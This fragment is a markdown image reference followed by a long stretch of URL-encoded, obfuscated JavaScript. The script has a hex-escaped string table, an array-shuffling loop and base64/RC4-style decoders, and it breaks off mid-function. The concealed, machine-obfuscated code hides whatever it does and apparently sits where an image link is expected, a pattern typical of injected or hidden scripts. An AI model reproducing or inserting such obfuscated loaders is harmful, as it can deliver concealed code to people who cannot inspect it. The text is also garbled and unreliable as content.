 5Cx74%5Cx65%5Cx6e%5Cx6f'%2C'%5Cx6d%5Cx76%5Cx31%5Cx4f'%2C'%5Cx72%5Cx32%5Cx31%5Cx30'%2C'%5Cx74%5Cx65%5Cx6e%5Cx6a'%2C'%5Cx72%5Cx78%5Cx43%5Cx35'%2C'%5Cx76%5Cx31%5Cx66%5Cx74'%2C'%5Cx7a%5Cx67%5Cx6e%5Cx71'%2C'%5Cx7a%5Cx4e%5Cx66%5Cx77'%2C'%5Cx42%5Cx68%5Cx48%5Cx6b'%2C'%5Cx44%5Cx4e%5Cx50%5Cx48'%2C'%5Cx6e%5Cx74%5Cx79%5Cx33'%2C'%5Cx45%5Cx4e%5Cx48%5Cx36'%2C'%5Cx71%5Cx32%5Cx48%5Cx68'%2C'%5Cx44%5Cx4e%5Cx61%5Cx34'%2C'%5Cx42%5Cx32%5Cx72%5Cx71'%2C'%5Cx42%5Cx75%5Cx6e%5Cx4f'%2C'%5Cx6d%5Cx77%5Cx6e%5Cx4d'%2C'%5Cx44%5Cx4e%5Cx43%5Cx31'%2C'%5Cx6e%5Cx4d%5Cx44%5Cx7a'%2C'%5Cx72%5Cx4d%5Cx6e%5Cx6e'%2C'%5Cx72%5Cx4d%5Cx72%5Cx35'%2C'%5Cx72%5Cx33%5Cx66%5Cx6e'%2C'%5Cx44%5Cx67%5Cx39%5Cx74'%2C'%5Cx76%5Cx31%5Cx66%5Cx6b'%2C'%5Cx76%5Cx31%5Cx6a%5Cx4b'%2C'%5Cx41%5Cx32%5Cx4c%5Cx78'%2C'%5Cx41%5Cx76%5Cx43%5Cx30'%2C'%5Cx6d%5Cx74%5Cx43%5Cx58%5Cx6d%5Cx5a%5Cx71%5Cx30%5Cx6e%5Cx66%5Cx44%5Cx31%5Cx44%5Cx75%5Cx58%5Cx75%5Cx7a%5Cx57'%2C'%5Cx71%5Cx78%5Cx44%5Cx65'%2C'%5Cx45%5Cx4d%5Cx44%5Cx6d'%2C'%5Cx79%5Cx31%5Cx6a%5Cx32'%2C'%5Cx42%5Cx67%5Cx72%5Cx69'%2C'%5Cx44%5Cx4b%5Cx66%5Cx58'%2C'%5Cx45%5Cx4b%5Cx35%5Cx32'%2C'%5Cx7a%5Cx75%5Cx6e%5Cx78'%2C'%5Cx41%5Cx78%5Cx7a%5Cx70'%2C'%5Cx44%5Cx76%5Cx62%5Cx78'%2C'%5Cx75%5Cx4a%5Cx48%5Cx56'%2C'%5Cx41%5Cx78%5Cx72%5Cx74'%2C'%5Cx76%5Cx5a%5Cx7a%5Cx6b'%2C'%5Cx73%5Cx30%5Cx58%5Cx6e'%2C'%5Cx7a%5Cx78%5Cx48%5Cx70'%2C'%5Cx7a%5Cx65%5Cx50%5Cx34'%2C'%5Cx76%5Cx5a%5Cx72%5Cx70'%2C'%5Cx76%5Cx31%5Cx6a%5Cx68'%2C'%5Cx44%5Cx4d%5Cx50%5Cx50'%2C'%5Cx76%5Cx31%5Cx66%5Cx69'%2C'%5Cx7a%5Cx4c%5Cx66%5Cx30'%2C'%5Cx75%5Cx32%5Cx39%5Cx34'%2C'%5Cx76%5Cx5a%5Cx72%5Cx55'%2C'%5Cx6d%5Cx33%5Cx7a%5Cx54'%2C'%5Cx71%5Cx77%5Cx7a%5Cx32'%2C'%5Cx76%5Cx5a%5Cx76%5Cx41'%2C'%5Cx6d%5Cx32%5Cx72%5Cx6a'%2C'%5Cx74%5Cx64%5Cx48%5Cx52'%2C'%5Cx71%5Cx77%5Cx72%5Cx71'%2C'%5Cx43%5Cx32%5Cx58%5Cx50'%2C'%5Cx76%5Cx5a%5Cx44%5Cx67'%2C'%5Cx79%5Cx4c%5Cx44%5Cx71'%2C'%5Cx7a%5Cx67%5Cx6e%5Cx75'%2C'%5Cx71%5Cx4d%5Cx6e%5Cx6a'%2C'%5Cx43%5Cx67%5Cx72%5Cx70'%2C'%5Cx73%5Cx30%5Cx76%5Cx58'%2C'%5Cx45%5Cx4e%5Cx72%5Cx70'%2C'%5Cx76%5Cx31%5Cx65%5Cx31'%2C'%5Cx72%5Cx4d%5Cx31%5Cx52'%2C'%5Cx41%5Cx64%5Cx6a%5Cx6f'%2C'%5Cx7a%5Cx65%5Cx48%5Cx54'%2C'%5Cx7a%5Cx32%5Cx48%5Cx50'%2C'%5Cx45%5Cx75%5Cx31%5Cx6d'%2C'%5Cx77%5Cx78%5Cx66%5Cx33'%2C'%5Cx79%5Cx33%5Cx7a%5Cx53'%2C'%5Cx6d%5Cx75%5Cx6a%5Cx6a'%2C'%5Cx7a%5Cx74%5Cx76%5Cx74'%2C'%5Cx76%5Cx30%5Cx39%5Cx30'%2C'%5Cx72%5Cx68%5Cx7a%5Cx30'%2C'%5Cx6d%5Cx33%5Cx50%5Cx33'%2C'%5Cx72%5Cx5a%5Cx6a%5Cx64'%2C'%5Cx41%5Cx33%5Cx7a%5Cx78'%2C'%5Cx43%5Cx4c%5Cx66%5Cx4c'%2C'%5Cx71%5Cx30%5Cx58%5Cx6c'%2C'%5Cx73%5Cx65%5Cx4c%5Cx6b'%2C'%5Cx7a%5Cx76%5Cx44%5Cx70'%2C'%5Cx72%5Cx78%5Cx76%5Cx48'%2C'%5Cx43%5Cx4d%5Cx6e%5Cx5a'%2C'%5Cx71%5Cx78%5Cx43%5Cx35'%2C'%5Cx79%5Cx31%5Cx6a%5Cx6a'%2C'%5Cx71%5Cx4d%5Cx44%5Cx55'%2C'%5Cx74%5Cx66%5Cx44%5Cx71'%2C'%5Cx42%5Cx66%5Cx44%5Cx70'%2C'%5Cx75%5Cx30%5Cx69%5Cx59'%2C'%5Cx42%5Cx66%5Cx6e%5Cx52'%2C'%5Cx76%5Cx31%5Cx48%5Cx7a'%2C'%5Cx76%5Cx76%5Cx43%5Cx30'%2C'%5Cx44%5Cx33%5Cx6a%5Cx59'%2C'%5Cx73%5Cx4b%5Cx6a%5Cx4f'%2C'%5Cx72%5Cx65%5Cx6e%5Cx52'%2C'%5Cx79%5Cx30%5Cx4c%5Cx74'%2C'%5Cx73%5Cx33%5Cx50%5Cx58'%2C'%5Cx42%5Cx68%5Cx48%5Cx65'%2C'%5Cx75%5Cx33%5Cx50%5Cx33'%2C'%5Cx76%5Cx4b%5Cx6d%5Cx59'%2C'%5Cx79%5Cx30%5Cx39%5Cx32'%2C'%5Cx79%5Cx31%5Cx61%5Cx57'%2C'%5Cx76%5Cx68%5Cx4c%5Cx33'%2C'%5Cx42%5Cx78%5Cx72%5Cx58'%2C'%5Cx77%5Cx4d%5Cx6e%5Cx72'%2C'%5Cx73%5Cx67%5Cx76%5Cx58'%2C'%5Cx7a%5Cx78%5Cx48%5Cx4f'%2C'%5Cx71%5Cx4c%5Cx6e%5Cx52'%2C'%5Cx76%5Cx31%5Cx6a%5Cx57'%2C'%5Cx42%5Cx5a%5Cx76%5Cx31'%2C'%5Cx76%5Cx5a%5Cx44%5Cx57'%2C'%5Cx44%5Cx74%5Cx69%5Cx33'%2C'%5Cx75%5Cx33%5Cx4c%5Cx34'%2C'%5Cx75%5Cx78%5Cx50%5Cx51'%2C'%5Cx71%5Cx77%5Cx31%5Cx56'%2C'%5Cx41%5Cx77%5Cx44%5Cx55'%2C'%5Cx6d%5Cx68%5Cx50%5Cx41'%2C'%5Cx72%5Cx77%5Cx72%5Cx4d'%2C'%5Cx76%5Cx30%5Cx38%5Cx34'%2C'%5Cx7a%5Cx32%5Cx4c%5Cx54'%2C'%5Cx6e%5Cx30%5Cx7a%5Cx49%5Cx76%5Cx4d%5Cx6a%5Cx48%5Cx72%5Cx47'%2C'%5Cx45%5Cx4b%5Cx31%5Cx79'%2C'%5Cx71%5Cx32%5Cx38%5Cx33'%2C'%5Cx7a%5Cx65%5Cx50%5Cx33'%2C'%5Cx7a%5Cx65%5Cx54%5Cx31'%2C'%5Cx44%5Cx4d%5Cx31%5Cx56'%2C'%5Cx42%5Cx67%5Cx6e%5Cx6a'%2C'%5Cx43%5Cx31%5Cx44%5Cx70'%2C'%5Cx6c%5Cx32%5Cx72%5Cx6b'%2C'%5Cx42%5Cx67%5Cx6e%5Cx75'%2C'%5Cx45%5Cx74%5Cx6a%5Cx4d'%2C'%5Cx75%5Cx65%5Cx6a%5Cx4e'%2C'%5Cx74%5Cx4b%5Cx39%5Cx71'%2C'%5Cx72%5Cx68%5Cx7a%5Cx6c'%2C'%5Cx45%5Cx68%5Cx76%5Cx78'%2C'%5Cx75%5Cx32%5Cx54%5Cx4a'%2C'%5Cx7a%5Cx66%5Cx72%5Cx58'%2C'%5Cx44%5Cx66%5Cx48%5Cx50'%2C'%5Cx71%5Cx4d%5Cx6e%5Cx72'%5D%3Ba%3Dfunction()%7Breturn%20K%3B%7D%3Breturn%20a()%3B%7D(function(c%2Cd)%7Bconst%20x%3Db%2Ce%3Dc()%3Bwhile(!!%5B%5D)%7Btry%7Bconst%20f%3DparseInt(x(0x2f6))%2F0x1%2B-parseInt(x(0x423))%2F0x2%2BparseInt(x(0x23b))%2F0x3%2B-parseInt(x(0x44f))%2F0x4*(parseInt(x(0x31b))%2F0x5)%2BparseInt(x(0x363))%2F0x6%2B-parseInt(x(0x3c2))%2F0x7*(-parseInt(x(0x402))%2F0x8)%2BparseInt(x(0x1ed))%2F0x9*(-parseInt(x(0x440))%2F0xa)%3Bif(f%3D%3D%3Dd)break%3Belse%20e%5B'push'%5D(e%5B'shift'%5D())%3B%7Dcatch(g)%7Be%5B'push'%5D(e%5B'shift'%5D())%3B%7D%7D%7D(a%2C0x2d323))%3Bfunction%20_0x4c70(c%2Cd)%7Bconst%20e%3D_0x42d9()%3Breturn%20_0x4c70%3Dfunction(f%2Cg)%7Bconst%20y%3Db%3Bf%3Df-0x1db%3Blet%20h%3De%5Bf%5D%3Bif(_0x4c70%5By(0x2d3)%2By(0x3bb)%5D%3D%3D%3Dundefined)%7Bvar%20i%3Dfunction(n)%7Bconst%20z%3Dy%2Co%3Dz(0x246)%2Bz(0x200)%2Bz(0x38c)%2Bz(0x255)%2Bz(0x266)%2Bz(0x2de)%2Bz(0x425)%2Bz(0x422)%2Bz(0x24b)%2Bz(0x441)%2Bz(0x435)%2Bz(0x399)%2Bz(0x370)%2Bz(0x3ce)%2Bz(0x3e0)%2Bz(0x2d7)%2Bz(0x3a4)%2Bz(0x31c)%2Bz(0x46c)%2Bz(0x352)%2Bz(0x24e)%2B'%5Cx2f%5Cx3d'%3Blet%20p%3D''%2Cq%3D''%3Bfor(let%20r%3D0x0%2Cs%2Ct%2Cu%3D0x0%3Bt%3Dn%5Bz(0x336)%2Bz(0x303)%5D(u%2B%2B)%3B~t%26%26(s%3Dr%250x4%3Fs*0x40%2Bt%3At%2Cr%2B%2B%250x4)%3Fp%2B%3DString%5Bz(0x28b)%2Bz(0x357)%2Bz(0x2dc)%2Bz(0x232)%5D(0xff%26s%3E%3E(-0x2*r%260x6))%3A0x0)%7Bt%3Do%5Bz(0x2d1)%2Bz(0x371)%2B'%5Cx66'%5D(t)%3B%7Dfor(let%20v%3D0x0%2Cw%3Dp%5Bz(0x40e)%2Bz(0x3d6)%5D%3Bv%3Cw%3Bv%2B%2B)%7Bq%2B%3D'%5Cx25'%2B('%5Cx30%5Cx30'%2Bp%5Bz(0x336)%2Bz(0x2ba)%2Bz(0x2a6)%2B'%5Cx74'%5D(v)%5Bz(0x35e)%2Bz(0x2e6)%2B'%5Cx6e%5Cx67'%5D(0x10))%5Bz(0x380)%2B'%5Cx63%5Cx65'%5D(-0x2)%3B%7Dreturn%20decodeURIComponent(q)%3B%7D%3Bconst%20m%3Dfunction(n%2Co)%7Bconst%20A%3Dy%3Blet%20p%3D%5B%5D%2Cq%3D0x0%2Cr%2Cs%3D''%3B
